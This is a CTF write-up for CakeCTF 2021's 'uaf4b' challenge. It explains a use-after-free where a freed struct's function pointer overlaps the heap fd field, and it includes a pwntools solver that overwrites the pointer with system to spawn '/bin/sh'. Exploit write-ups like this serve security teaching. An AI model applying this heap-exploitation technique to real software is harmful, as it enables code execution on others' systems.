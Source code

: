 ```yaml
---
title: "uaf4b - CakeCTF2021"
date: 2022-05-10T11:06:51+09:00
tags: ["pwn", "CakeCTF", "ptr-yudai's chall"]
draft: false
---
```


# Plan
Overwrite the function pointer with `system` function by Use After Free.

## About CAWSAY struct
In freed chunk, `fn_dialogue` is assigned to `fd` 
and `message` is assigned to `bk`.

```c
typedef struct {
  void (*fn_dialogue)(char*);
  char *message;
} COWSAY;
```

Also, you pay attention to execute `cowsay->fn_dialogue(cowsay->message);` in L167~171 in `main.c`.
```c
case 1:
  /* Use cowsay */
  printf("[+] You're trying to call 0x%016lx\n", (addr)cow
say->fn_dialogue);
  cowsay->fn_dialogue(cowsay->message);
  break;
```

## malloced chunk
When it malloced, Heap area is following.

[![mallocedchunk](https://i.gyazo.com/f3ef9ad8fe8cc16b6db4e9b59e3347d3.png)](https://gyazo.com/f3ef9ad8fe8cc16b6db4e9b59e3347d3)

## freed chunk
Next, when it freed, it is following.

[![freedchunk](https://i.gyazo.com/dcb349b359e86031b4d3575a85de9b8e.png)](https://gyazo.com/dcb349b359e86031b4d3575a85de9b8e)

## Call the `system("/bin/sh")`
As you can see from these two figure, `fn_dialogue` is assigned to `fd`.
In other word, if you change `fn_dialogue` to `system`, it is called `system("/bin/sh")`.

# [Solver](https://github.com/yu1hpa/ctf-writeup/tree/master/2021/CakeCTF/uaf4b)
```python
from pwn import *

context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = process("./chall")

io.recvuntil("<system> = ")
system_addr = int(io.recvline(), 16)

io.sendlineafter("> ", "2")
io.sendlineafter("Message: ", "/bin/sh")

io.sendlineafter("> ", "4")
io.recvuntil("cowsay->message")
message_addr = int(io.recvuntil("|")[:16], 16)
print(f'{message_addr:x}')

io.sendlineafter("> ", "3") # free
io.sendlineafter("> ", "2")     # fd ↓               # bk ↓
io.sendlineafter("Message: ", p64(system_addr) + p64(message_addr)) # system(/bin/sh)

io.sendlineafter("> ", "4")
io.sendlineafter("> ", "1")

io.interactive()
````

# Final heap area

[![FinalHeapArea](https://i.gyazo.com/ea4b3c9b6166f1d35070ebe0823a9922.png)](https://gyazo.com/ea4b3c9b6166f1d35070ebe0823a9922)
